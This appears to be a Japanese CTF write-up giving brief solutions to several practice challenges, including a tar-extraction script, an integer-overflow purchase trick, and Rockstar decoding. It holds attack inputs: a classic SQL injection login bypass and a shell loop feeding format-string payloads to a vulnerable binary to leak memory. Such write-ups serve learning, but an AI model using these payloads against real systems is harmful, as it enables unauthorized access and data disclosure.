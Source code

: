 ## like1000
- .tarファイルを解凍するshellスクリプトを書く  
- 例えば以下のコードを'hoge.sh'として保存し、実行する  
```
#! /bin/bash
i=100
tmp=''
hoge='.tar'
for ((i=1000;i>=1;i-->))
do
tmp=$i$hoge
tar -xvf $tmp
rm $tmp
done
```
```
bash hoge.sh
```


# 300 points
## Irish-Name-Repo 1
- SQLインジェクションの代表的な奴をうちこむ
- ユーザ名の入力フォームに以下を打つ
```
' or 1 = 1 --
```

## flag_shop
- プログラムを見ると、フラグを購入する数が代入される変数はintで定義されている
- intはだいたい4byteで、取りうる値の範囲がわかるので負の値になるように入力する
- 自分の所持金が増えるはずなので、1337flagを購入する

## mus1c
- rockstarと呼ばれる歌詞みたいなプログラミング言語らしい。以下のサイトで翻訳できる。
- https://codewithrockstar.com/online
- ASCIIコードが出力されるので、文字列に変換するだけ

## stringzz
- format string攻撃
- どうやら、標準入力の変数をprintf()やputs()などの関数の引数に渡すとよくないらしい
- メモリの中身を見れるらしいので、以下のshell codeを書いて、flagを探す
```
#! /bin/bash

for ((i=0;i<100;i++))
do
echo -e "%$i\$s" | ./vuln | grep CTF
done
```
